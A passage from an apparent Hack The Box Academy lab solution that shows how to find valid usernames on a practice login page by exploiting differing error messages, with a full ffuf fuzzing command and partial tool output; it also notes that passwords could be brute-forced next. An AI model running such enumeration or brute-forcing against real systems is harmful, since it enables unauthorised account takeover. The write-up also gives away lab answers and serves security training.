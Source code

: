 Using any password from the created wordlist (such as 'iydgTvmujl6f'), students need to register an account:

![[HTB Solutions/CBBH/z. images/932b91eb44ece321af6ac9f52e3e1dc4_MD5.jpg]]

Subsequently, students need to sign in, noticing that the web application redirects to `/profile.php`; however, the user account lacks administrative privileges:

![[HTB Solutions/CBBH/z. images/e9ee01aef1f18c1a911a46ad6e744f15_MD5.jpg]]

When attempting to sign in with dummy credentials, students will discover that the error message returned by the server is 'Unknown username or password.' (students need to inspect the request sent to notice that `username` and `password` are the two POST parameters used by the form to send data to the server):

![[HTB Solutions/CBBH/z. images/d6af763b0b4dbd2172b475e712f6e251_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/64f5e43fcbedb86f0086447cc82046f8_MD5.jpg]]

However, when providing a valid username but an incorrect password, the error message returned is "Invalid credentials.":

![[HTB Solutions/CBBH/z. images/694ea2cda72a2443c0c94c3ba1c16fc8_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/fb6a0240f80d2066642ca420229ae23a_MD5.jpg]]

This differing error message behavior allows for the enumeration of valid usernames and brute-forcing of passwords (given that rate-limiting is not enforced).

Thus, students first need to use `ffuf` to enumerate valid usernames, finding the only one to be `gladys`:

```shell
ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://STMIP:STMPO/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=123" -fr "Unknown username or password."
```
```shell
┌─[eu-academy-5]─[10.10.14.233]─[htb-ac-413848@htb-evly17edjb]─[~]
└──╼ [★]$ ffuf -w /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.201:51492/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=123" -fr "Unknown username or password."

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://94.237.63.201:51492/login.php
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Usernames/xato-net-10-million-usernames.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=FUZZ&password=123
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Unknown username or password.
________________________________________________

```